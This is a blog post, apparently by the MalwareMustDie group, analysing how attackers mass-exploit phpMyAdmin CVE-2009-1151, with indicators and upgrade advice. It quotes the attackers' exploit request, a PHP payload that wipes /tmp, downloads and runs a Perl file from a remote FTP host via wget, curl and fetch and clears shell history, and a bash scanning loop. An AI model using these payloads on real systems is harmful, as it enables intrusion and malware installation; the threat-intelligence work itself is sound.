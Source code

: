 ```yaml
---
layout: post
title:  "phpMyAdmin PMA vuln CVE-2009-1151"
subtitle: "How CVE-2009-1151 is used in the wild"
date:   2015-01-17 23:34:01
category: itsec
---
```


Today we ([MalwareMustDie](https://twitter.com/MalwareMustDie/)) found this thread of automated exploiting phpMyAdmin instances which are vulnerable to [CVE-2009-1151](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1151). In short: this uses a false escaped vari                  able which can be used to run code which is then included in *config.inc.php*, see [this](http://www.gnucitizen.org/blog/cve-2009-1151-ph                  pmyadmin-remote-code-execution-proof-of-concept/) interesting blog post for additional information.

We found a pack of files that the morons used. They use a PHP script to run it in console and exploit remote systems, there a *POST* request is beeing used with a fake user agent and the exploit code:

        send_data('POST',$pma_setup_url,'action=lay_navigation&eoltype=unix&token='.$token.'&configuration='.urlencode('a:1:{i:0;O:10:"PMA_Config":1:{s:6:"source";s:'.strlen($ftp_code).':"'.$ftp_code.'";}}'),$pma_setup_url,$cookie_array,'Opera');

*$ftp_code* is: ```'ftp://andre:123456@87.230.10.109/fafico.ico';```, where *fafico.ico* contains that:

        <? system("cd /tmp;rm -rf *;wget ftp://sysbackup1:911911@37.228.88.214/c.pdf;perl c.pdf;curl -O
        ftp://sysbackup1:911911@37.228.88.214/c.pdf;perl c.pdf;fetch
        ftp://sysbackup1:911911@37.228.88.214/c.pdf;perl
        c.pdf;rm -rf c.pdf;history -c;");exit?>

This will download more malware and beeing executed, tried to camouflage as a PDF in a very stupid way. The FTP account work anymore, so I could not gain an example.
The whole files are styled ```CTRL+C CTRL+V```. The morons where even to stupid to run the files in a proper way or edit them in a proper way, there are dozens of tiny *.sh* scripts which just run the PHP exploit script, for example:

        #!/bin/bash
        #php exploitx.php -a $1

        for i in `cat v`
        do
        echo Il furam pe nenea de access $i
        #php exploitx.php -a $i
        command='php exploitx.php -a '$i'';
        # run $command in background, sleep for our timeout then kill the process if it is running
        echo $command
        $command &
        pid=$!
        echo "sleep 10; kill $pid" |
        wait $pid &> /dev/null
        if [ $? -eq 143 ]; then
        echo "Trecem la urmatorul 10 secs reached."
        echo
        fi

        done

Also we found there some lists of vulnerable phpMyAdmin installs. Why they are vulnerable at this time to this old CVE? Because admins are not upgrading their system. With the latest phpMyAdmin version this wont work anymore, so why not update? The IP lists contain thousand                  s of servers, they just scanned hole IP ranges. *vuln.txt* as example contains 306615 vulnerable phpMyAdmin installs! Well, many are not                   reachable but the problem keeps, many outdated phpMyAdmin installs are aviable.

Also they are downloading an [ELF malware](https://www.virustotal.com/de/file/97093a1ef729cb954b2a63d7ccc304b18d0243e2a77d87bbbb94741a0290d762/analysis/1421518349/) which is fairly old and known, but **not** by *ClamAV* as an example.

Also included are public PHP classes which are misused to run their evil crap, like for guessing the OS and getting details about it: [OS_Guess](http://pear.php.net/reference/PEAR-1.6.2/PEAR/OS_Guess.html).

Following is a list of the IP's which host their bad scripts via FTP:

- 64.40.118.113 (Library Online Inc. Canada)
- 37.228.88.214 (JSC Mediasoft ekspert Organization Russia)
- 87.230.10.109 (Hosteurope GmbH Germany)
- 202.87.31.45 (AU1 Net Pty Ltd Organization Australia)

[Here](http://pastebin.com/rsLRHWSi) you can find some gathered information and additional information about this.

Inside is also the ELF **zmeu**, [VT link](https://www.virustotal.com/de/file/686cd26d834ee527b28da7649b40f7dbd2c1917cbe0e0cfb2a1b099b97a066ec/analysis/).
Hashes:

- MD5: d2bca500834c158db9b39fe8748027fd
- SHA256:

                686cd26d834ee527b28da7649b40f7dbd2c1917cbe0e0cfb2a1b099b97a066ec

It's a known [vulnerability scanner](http://en.wikipedia.org/wiki/ZmEu_%28vulnerability_scanner%29) for phpMyAdmin.

Interesting is also a string I found in the file *rand*, which is used to scan the IP ranges:

        # zmeu blackhat anti-sec

So we have a name?

## Conclusion

Administrators, take care of your systems and to upgrade them in time. Outdated versions are always more risky to use than current ones. Please have that always in mind. And don't use simple passwords, *123456* is no password, this are just digits!
Also important: **Change** the default directory name of your phpMyAdmin install, this will prevent to be found by their automated scanners.

MalwareMustDie!
Also mentioning our brilliant **ELF** team, great work, awesome interaction and sharp chop sticks! We add the spicy in your rice!
